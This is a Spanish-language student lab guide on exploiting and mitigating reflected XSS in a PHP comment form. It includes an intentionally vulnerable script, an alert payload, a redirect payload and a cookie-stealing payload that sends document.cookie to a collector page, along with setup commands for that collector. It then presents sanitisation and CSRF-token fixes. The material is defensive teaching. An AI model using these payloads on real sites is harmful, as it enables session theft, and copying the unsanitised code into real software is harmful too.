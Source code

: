 # PPS-Unidad3Actividad5-MansurSY

Explotación y Mitigación de Cross-Site Scripting (XSS)
===
Tenemos como objetivo:

> - Recordar cómo se pueden hacer ataques de Cross-Site Scripting (XSS)
>
> - Conocer las diferentes formas de ataques XSS.
>
> - Analizar el código de la aplicación que permite ataques de Cross-Site Scripting (XSS)
>
> - Implementar diferentes modificaciones del codigo para aplicar mitigaciones o soluciones.

## ¿Qué es XSS?
---
Cross-Site Scripting (XSS) ocurre cuando una aplicación no valida ni sanitiza l>
scripts maliciosos se ejecuten en el navegador de otros usuarios.

Tipos de XSS:
- **Reflejado**: Se ejecuta inmediatamente al hacer la solicitud con un payload>
- **Almacenado**: El script se guarda en la base de datos y afecta a otros usua>
- **DOM-Based**: Se inyecta código en la estructura DOM sin que el servidor lo >

---
## ACTIVIDADES A REALIZAR
> Lee detenidamente la sección de Cross-Site Scripting de la página de PortWigger <https://portswigger.net/web-security/cross-site-scripting>

> Lee el siguiente [documento sobre Explotación y Mitigación de ataques de Inyección SQL](./files/ExplotacionYMitigacionXSS.pdf) de Raúl Fuentes. Nos va a seguir de guía para aprender a explotar y mitigar ataques de inyección XSS Reflejado en nuestro entorno de pruebas.
 
> También y como marco de referencia, tienes [ la sección de correspondiente de ataque XSS reglejado de la **Proyecto Web Security Testing Guide** (WSTG) del proyecto **OWASP**.](https://owasp.org/www-project-web-security-testing-guide/stable/4-Web_Application_Security_Testing/07-Input_Validation_Testing/01-Testing_for_Reflected_Cross_Site_Scripting).

Vamos realizando operaciones:

### Código vulnerable
---
Crear el archivo vulnerable comment.php:

~~~
<?php
if (isset($_POST['comment'])) {
	echo "Comentario publicado: " . $_POST['comment'];
}
?>
<form method="post">
	<input type="text" name="comment">
	<button type="submit">Enviar</button>
</form>
~~~

![image](https://github.com/user-attachments/assets/1edf4de0-b6b5-4105-9105-4bcb88c85aed)

![image](https://github.com/user-attachments/assets/52a1640e-8499-4165-a55a-9dd6768368ca)


Este código muestra un formulario donde el usuario puede ingresar un comentario en un campo de texto. Cuando
el usuario envía el formulario, el comentario ingresado se muestra en la pantalla con el mensaje "Comentario publicado:
\[comentario\]". 

El Código no sanitiza la entrada del usuario, lo que permite inyectar scripts maliciosos.

![](images/xss1.png)

### **Explotación de XSS**
---

Abrir el navegador y acceder a la aplicación: <http://localhost/comment.php>

Ingresar el siguiente código en el formulario:

`<script>alert('XSS ejecutado!')</script>`

![image](https://github.com/user-attachments/assets/07d30bb6-a946-48d6-92ca-3a6fd1ec7bd0)


Si aparece un mensaje de alerta (alert()) en el navegador, significa que la aplicación es vulnerable.

![](images/xss2.png)

Podríamos redirigir a una página de phishing:

`<script>window.location='https://fakeupdate.net/win11/'</script>`

![](images/xss3.png)

![image](https://github.com/user-attachments/assets/52bf6657-b2cd-4ad7-9d9b-6d966ec6ea9d)


**Podemos capturar cookies del usuario (en ataques reales):**
---
Con esto, un atacante podría robar sesiones de usuarios.

~~~
<script>document.write('<img src="http://localhost/cookieStealer/index.php?cookie='+document.cookie+'">')</script>`
~~~

![image](https://github.com/user-attachments/assets/520f18eb-d4d5-43a4-aae7-9996ac2d6267)

![](images/xss4.png)

Si lo quieres ver, rea en tu servidor web una carpeta con nombre cookieStealer y copias en el archivo index.php [este archivo php](files/steal.php)

~~~
mkdir /var/www/html/cookieStealer/
touch /var/www/html/cookieStealer/index.php
mkdir /var/www/html/cookieStealer/cookies.txt
chmod 777 /var/www/html/cookieStealer/cookies.txt

~~~

![image](https://github.com/user-attachments/assets/df7ca791-baac-4d02-b559-e0128bbf8e81)


En el archivo cookie.txt del servidor del atacante se habrá guardado los datos de nuestra cookie:

![](images/xss8.png)

![image](https://github.com/user-attachments/assets/d222f252-18a3-458b-9870-2fedb914fed3)

![image](https://github.com/user-attachments/assets/b46f9f93-cb04-4041-bb2f-62f939f1afb1)

Puedes investigar más en <https://github.com/TheWation/PhpCookieStealer/tree/master>
### **Mitigación**
---
**Uso de filter_input() para filtrar caracteres.**
---
Filtra caracteres problemáticos.

Crea el documento comment1.php con el siguiente contenido:

~~~
<?php
function filter_string_polyfill(string $string): string
{
    // Elimina caracteres nulos y etiquetas HTML
    $str = preg_replace('/\x00|<[^>]*>?/', '', $string);
    // Sustituye comillas por entidades HTML
    return str_replace(["'", '"'], ['&#39;', '&#34;'], $str);
}

// Verificar si el comentario ha sido enviado
if ($_SERVER['REQUEST_METHOD'] === 'POST') {
    // Obtener y sanitizar el comentario
    $comment = filter_string_polyfill($_POST['comment'] ?? ''); // Usamos '??' para manejar el caso de que no se haya enviado ningún comentario
    $comment = htmlspecialchars($comment, ENT_QUOTES, 'UTF-8');

    // Validación
    if (!empty($comment) && strlen($comment) <= 500) {
        echo "Comentario publicado: " . $comment;
    } else {
        echo "Error: El comentario no puede estar vacío y debe tener máximo 500 caracteres.";
    }
}
?>

<form method="post">
    <label for="comment">Comentario:</label>
    <input type="text" name="comment" id="comment">
    <button type="submit">Enviar</button>
</form>
~~~

![](files/xss5.png)

![image](https://github.com/user-attachments/assets/7a2ab3f1-077b-434a-8c8f-b6300677f88c)

![image](https://github.com/user-attachments/assets/a9b6da02-d4e5-4798-bace-46c4f431dc70)


Creamos una función filter_string_polyfill que nos va a eliminar todos los caracteres nulos y nos cambia caracteres conflictivos.

**Sanitizar la entrada con htmlspecialchars()**
---
htmlspecialchars() convierte caracteres especiales en texto seguro:
- <script> → &lt;script&gt;
- " → &quot;
- ' → &#39;

Con esta corrección, el intento de inyección de JavaScript se mostrará como texto en lugar de ejecutarse.

Crea un archivo comment2.php con el siguiente contenido 

~~~
<?php
if (isset($_POST['comment'])) {
	$comment = htmlspecialchars($_POST['comment'], ENT_QUOTES, 'UTF-8');
	echo "Comentario publicado: " . $comment;
}
?>
<form method="post">
	<input type="text" name="comment">
	<button type="submit">Enviar</button>
</form>
~~~

![image](https://github.com/user-attachments/assets/0c17a9db-d28d-4b1f-a0c8-cf9bd8c2816e)

![image](https://github.com/user-attachments/assets/14150bce-a0dd-4dc6-8284-7d3ec83bc779)


![](images/xss5.png)

Aunque usar htmlspecialchars() es una buena medida para prevenir ataques XSS, todavía se puede mejorar la
seguridad y funcionalidad del código con los siguientes puntos:

**Validación de entrada**
---

Actualmente, el código permite que el usuario envíe cualquier contenido, incluyendo texto vacío o datos
demasiado largos. Puedes agregar validaciones para asegurarte de que el comentario sea adecuado:

Crea un archivo comment3.php con el siguiente contenido:
~~~
<?php
//sanitizar comentario
$comment = htmlspecialchars($_POST['comment'], ENT_QUOTES, 'UTF-8');
if (!empty($comment) && strlen($comment) <= 500) {
        echo "Comentario publicado: " . $comment;
} else {
        echo "Error: El comentario no puede estar vacío y debe tener máximo 500caracteres.";
}
?>

<form method="post">
        <input type="text" name="comment">
        <button type="submit">Enviar</button>
</form>
~~~

![image](https://github.com/user-attachments/assets/d3b9a05c-5562-4806-b57a-22d71decf03f)


Evita comentarios vacíos o excesivamente largos (500 caracteres).

![](files/xss6.png)

**Protección contra inyecciones HTML y JS (XSS)**
---
Si bien htmlspecialchars() mitiga la ejecución de scripts en el navegador, se puede reforzar con strip_tags() si
solo se quiere texto sin etiquetas HTML:

`$comment = strip_tags($_POST['comment']);`

Elimina etiquetas HTML completamente. Útil si no quieres permitir texto enriquecido (bold, italic, etc.).

Si en cambio si se quiere permitir algunas etiquetas (por ejemplo, \<b\> y \<i\>), se puede hacer:

`$comment = strip_tags($_POST['comment'], '<b><i>');`

**Protección contra ataques CSRF**
---
Actualmente, cualquiera podría enviar comentarios en el formulario con una solicitud falsa desde otro sitio web.

Para prevenir esto, se puede generar un token CSRF y verificarlo antes de procesar el comentario.

En la [proxima actividad sobre ataques CSRF](https://github.com/jmmedinac03vjp/PPS-Unidad3Actividad6-CSRF) lo veremos más detenidamente.

_Generar y almacenar el token en la sesión_
~~~
session_start();
if (!isset($_SESSION['csrf_token'])) {
$_SESSION['csrf_token'] = bin2hex(random_bytes(32));
}
~~~

_Agregar el token al formulario_
`<input type="hidden" name="csrf_token" value="<?php echo $_SESSION['csrf_token']; ?>">`

_Verificar el token antes de procesar el comentario_
~~~
if (!isset($_POST['csrf_token']) || $_POST['csrf_token'] !== $_SESSION['csrf_token'])
{
die("Error: Token CSRF inválido.");
}
~~~
Estas modificaciones previenen ataques de falsificación de solicitudes (CSRF).
Crea el archivo comment4.php con todas las mitigaciones:
~~~
<?php
function filter_string_polyfill(string $string): string
{
    // Elimina caracteres nulos y etiquetas HTML
    $str = preg_replace('/\x00|<[^>]*>?/', '', $string);
    // Sustituye comillas por entidades HTML
    return str_replace(["'", '"'], ['&#39;', '&#34;'], $str);
}
session_start();
// Generar token CSRF si no existe
if (!isset($_SESSION['csrf_token'])) {
        $_SESSION['csrf_token'] = bin2hex(random_bytes(32));
}
if ($_SERVER["REQUEST_METHOD"] == "POST") {
        // Verificar el token CSRF
        if (!isset($_POST['csrf_token']) || $_POST['csrf_token'] !==$_SESSION['csrf_token']) {
                die("Error: Token CSRF inválido.");
        }// Verificar si el comentario ha sido enviado
        // Obtener y sanitizar el comentario
        $comment = filter_string_polyfill($_POST['comment'] ?? ''); // Usamos '??' para manejar el caso de que no se haya enviado ningún comentario
        $comment = htmlspecialchars($comment, ENT_QUOTES, 'UTF-8');
    // Validación de longitud y evitar comentarios vacíos.
    if (!empty($comment) && strlen($comment) <= 500) {
        echo "Comentario publicado: " . $comment;
    } else {
        echo "Error: El comentario no puede estar vacío y debe tener máximo 500 caracteres.";
    }
}
?>

<!DOCTYPE html>
<html lang="es">
<head>
        <meta charset="UTF-8">
        <meta name="viewport" content="width=device-width, initial-scale=1.0">
        <title>Comentarios Seguros</title>
</head>
<body>
        <form method="post">
                <label for="comment">Escribe tu comentario:</label>
                <input type="text" name="comment" id="comment" required maxlength="500">
                <input type="hidden" name="csrf_token" value="<?php echo
$_SESSION['csrf_token']; ?>">
                <button type="submit">Enviar</button>
        </form>
</body>
</html>
~~~

---
## ENTREGA

>__Realiza las operaciones indicadas__

>__Crea un repositorio  con nombre PPS-Unidad3Actividad5-Tu-Nombre donde documentes la realización de ellos.__

> No te olvides de documentarlo convenientemente con explicaciones, capturas de pantalla, etc.

>__Sube a la plataforma, tanto el repositorio comprimido como la dirección https a tu repositorio de Github.__

